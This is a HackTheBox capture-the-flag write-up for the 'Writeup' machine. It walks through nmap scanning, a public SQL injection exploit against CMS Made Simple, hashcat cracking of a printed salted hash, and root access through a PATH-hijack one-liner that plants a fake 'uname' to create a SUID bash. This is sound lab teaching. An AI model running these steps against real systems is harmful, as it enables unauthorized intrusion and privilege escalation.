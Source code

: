 ```yaml
---
title: "HackTheBox - Writeup"
author: Nasrallah
description: ""
date: 2023-02-07 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cve, sqli, hashcat, cracking]
img_path: /assets/img/hackthebox/machines/writeup
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

# **Description**

Hello hackers, I hope you are doing well. We are doing [Writeup](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.138
Host is up (0.18s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd5310700bd0470ae27e4ab6429823c7 (RSA)
|   256 372e1468aeb9c2342b6ed992bcbfbd28 (ECDSA)
|_  256 93eaa84042c1a83385b35600621ca0ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running SSH and 80 running an Apache http web server.

There is a robots.txt file in the web server with a disallowed entry of `/writeup`

## Web

Let's navigate to the web page.

![](1.png)

Here we got a message form `jkr` stating that there is a script in place where it watches for 40x error in Apache and bans IPs, so we cant't really run gobuster or any other automated tool.

Let's check the /writeup directory.

![](2.png)

This is where the author put writeups.

Checking the source code, we find that this page is generated by CMS Made Simple

![](3.png)

Checking the [source code](svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/doc/) of this CMS, we find the file `/docs/CHANGELOG.txt` reveals the current version of the used CMS.

On the target system, we find that the version is 2.2.9.1.

## Searchsploit

Let's check if this version has any vulnerabilities.

```terminal
└──╼ $ searchsploit made simple  2.2
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                                                        | php/webapps/4810.txt
CMS Made Simple 2.2.14 - Arbitrary File Upload (Authenticated)                                                              | php/webapps/48779.py
CMS Made Simple 2.2.14 - Authenticated Arbitrary File Upload                                                                | php/webapps/48742.txt
CMS Made Simple 2.2.14 - Persistent Cross-Site Scripting (Authenticated)                                                    | php/webapps/48851.txt
CMS Made Simple 2.2.15 - 'title' Cross-Site Scripting (XSS)                                                                 | php/webapps/49793.txt
CMS Made Simple 2.2.15 - RCE (Authenticated)                                                                                | php/webapps/49345.txt
CMS Made Simple 2.2.15 - Stored Cross-Site Scripting via SVG File Upload (Authenticated)                                    | php/webapps/49199.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                                                               | php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                                                               | php/webapps/45793.py
CMS Made Simple < 2.2.10 - SQL Injection                                                                                    | php/webapps/46635.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                
```

There is a sql injection vulnerability, let's copy the exploit with `searchsploit -m php/webapps/46635.py`

# **Foothold**

Now let's run the exploit.

![](4.png)

The exploit gave us a username, a salt and a hash.

Let's combine the salt and hash and put it in a file to crack it.

```bash
$ cat hash.txt
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

Using hashcat with mode 20 and rockyou wordlist to crack the hash.

![](5.png)

We got the password, now we can ssh into the machine.

![](6.png)

# **Privilege Escalation**

By running the command id, we notice that user jkr, is part of a group called `staff`.

```terminal
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

After running linpeas. we also see that this group has write permission over `/usr/local/*`.

![](7.png)

Also the PATH starts with the /usr/local/bin directory

```terminal
jkr@writeup:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

We can use this to exploit any binary that's running without a full path.

Using [pspy64](https://github.com/DominicBreuker/pspy) we can see any commands or cronjob that are running on the system. Let's see if we can find a binary that's running without a full path.

![](8.png)

There were no cronjobs running, so i tried to ssh into the machine again and captured the command uname running without a path.

With the following command, i created a `uname` script that's going to make copy of bash with suid bit.

```bash
echo 'cp /bin/bash /tmp && chmod +s /tmp/bash' > /usr/local/bin/uname && chmod +x /usr/local/bin/uname
```

Now we ssh again and run `/tmp/bash -p`

![](9.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
